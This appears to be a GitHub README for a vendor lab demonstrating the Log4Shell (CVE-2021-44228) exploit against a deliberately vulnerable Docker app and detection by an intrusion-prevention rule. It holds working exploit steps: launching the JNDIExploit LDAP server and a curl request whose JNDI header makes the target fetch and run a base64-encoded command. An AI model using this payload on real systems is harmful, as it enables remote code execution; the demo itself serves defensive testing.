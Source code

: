 # Cloud One - Workload Security Log4Shell
This repo contains a quick deployment template to showcase CVE-2021-44228 LOG4SHELL exploit and Workload Security Intrusion Prevention

## Deploy CloudFormation Template

Parameters to Define:
- **KeyPair**: Name of a current Key Pair
- **IPforSSH**: restrict SSH access to your IP. Default is 0.0.0.0/0

[![Launch Stack](https://cdn.rawgit.com/buildkite/cloudformation-launch-stack-button-svg/master/launch-stack.svg)](https://console.aws.amazon.com/cloudformation/home#/stacks/new?stackName=c1-ws-log4shell&templateURL=https://aws-workshop-c1as-cft-templates.s3.amazonaws.com/c1-ws-log4shell.yaml)

![architecture](images/architecture.png)

## After CloudFormation Template Deployment

1. SSH into EC2 instance(Shell A)
    ```bash
    sudo su
    <Deploy Workload Security Agent deployment script with Linux Policy attached.>
    ```
    ![deployment_script](images/deploymentscript.png)

2. In Cloud One-WS: Assign IPS rule for CVE-2021-44228 to linux machine
    - IPS rule number: **1011242**
    - Assign rule and change to **Detect Only** for now.
    - Accept all rule dependencies.
    
    ![ips_rule](images/ipsrule.png)
    
    ![detect_only](images/detectonly.png)

3. Start docker app(Shell A)

```bash
cd log4shell-vulnerable-app
docker run -p 8080:8080 --name vulnerable-app vulnerable-app
```
![docker_run](images/dockerstart.png)

4. Open Second SSH session(Shell B) and run command to create LDAP server
* [JNDIExploit](https://github.com/feihong-cs/JNDIExploit/releases/tag/v1.2) provided by feihong-cs before it was removed from GitHub.
```bash
unzip JNDIExploit.v1.2.zip
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i your-private-ip -p 8888
```

5. Run Exploit
- Open new SSH session(Shell C)

```bash
# will execute 'touch /tmp/pwned'
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://your-private-ip:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'
```
Notice the output(Shell B) of JNDIExploit, showing it has sent the malicious LDAP response and served the second-stage payload:

![shell-b](images/shell-b.png)

6. Confirm RCE was successful with the creation of pwned.txt file inside the running container's /tmp directory. 
- Using Shell C

```bash
docker exec vulnerable-app ls /tmp
```

7. Repeat attack this time with IPS rule set to **Prevent**


<hr>

## Reference
Thank you [christophetd](https://github.com/christophetd/log4shell-vulnerable-app) for providing the vulnerable Spring Boot web application.
